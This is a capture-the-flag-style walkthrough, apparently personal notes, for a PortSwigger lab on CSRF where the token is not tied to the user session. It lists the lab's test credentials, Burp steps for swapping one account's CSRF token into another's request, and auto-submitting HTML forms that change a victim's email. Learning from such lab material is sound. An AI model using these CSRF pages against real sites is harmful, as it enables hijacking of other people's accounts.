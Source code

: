 # CSRF where token is not tied to user session

## This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

### HINT:

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input
    required
    type="email"
    name="email"
    value="example@normal-website.com"
  />
  <input
    required
    type="hidden"
    name="csrf"
    value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
  />
  <button class="button" type="submit">Update email</button>
</form>
```

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### step1

login wiener account

intercept update email then drop and click back to browser page so that email not update

### step2

long carlos account
intercept update email and send to repeter and drop the intercept request and click back to browser page so that email not update
and note down csrf token

stpe 3
update wiener account email and intercept request and change csrf token with carlos token from repeter
forword intercept off email will successfully updated

step4

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

copy the above html code to expolit url

### step5

update carlos email and intercept copy csrf and drop request
change the csrf value into html code and deliver

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="kPOe5Zwo9kelXjXA7PlYV605jy3oaheL"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
